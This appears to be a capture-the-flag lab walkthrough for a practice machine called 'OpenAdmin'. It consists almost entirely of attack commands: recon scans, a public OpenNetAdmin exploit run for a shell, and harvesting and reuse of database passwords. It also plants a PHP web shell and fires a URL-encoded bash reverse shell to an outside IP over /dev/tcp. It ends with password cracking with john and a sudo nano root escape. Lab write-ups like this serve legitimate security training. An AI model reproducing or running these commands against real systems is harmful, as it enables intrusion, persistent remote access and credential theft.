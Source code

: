 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# OpenAdmin
# 29/3/2023
10.10.10.171

----------------------------------------------------
# nmap
----------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

----------------------------------------------------
gobuster
----------------------------------------------------
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]
dirbuster
http://10.10.10.171/ona/


----------------------------------------------------
# foothold
----------------------------------------------------
└─$ searchsploit 18.1.1 
└─$ searchsploit -m php/webapps/47691.sh
└─$ ./47691.sh http://10.10.10.171/ona/
we got shell

----------------------------------------------------
# lateral movements
----------------------------------------------------
www-data@openadmin:/var/www/ona/local/config$ cat database_settings.inc.php
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
Database credentials are found, and reusing this password for jimmy gives us SSH access.


Looking at the /etc/apache2/sites-enabled/internal.conf 
configuration file reveals that the
internal virtual host is running as joanna on localhost port 52846 .

jimmy@openadmin:~$ cat /etc/apache2/sites-enabled/internal.conf


Inspection of index.php shows a login page, hard-coded with a hashed password.
jimmy@openadmin:/var/www/internal$ cat index.php 

00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1

cracked on crackstation

jimmy:Revealed


ssh tunnling
└─$ ssh jimmy@10.10.10.171 -L 52846:localhost:52846
http://10.10.10.171:52846/


jimmy@openadmin:/var/www/internal$  echo '<?php system($_GET["shub"]); ?>' > shub.php  
└─$  curl http://127.0.0.1:52846/shub.php?shub=id
└─$ nc -lvnp 443  
└─$  curl 'http://127.0.0.1:52846/shub.php?shub=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%36%2e%37%2f%34%34%33%20%30%3e%26%31%27'
got a shell as joanna
after logging on website we got a ssh key but it have passphrase
└─$ grep -i ninja /usr/share/wordlists/rockyou.txt > rockyou_ninja
└─$ ssh2john id_rsa > hash  
└─$ john hash --wordlist=rockyou_ninja                   
bloodninjas
└─$ ssh -i id_rsa joanna@10.10.10.171
sudo nano
^R^X
reset; sh 1>&0 2>&0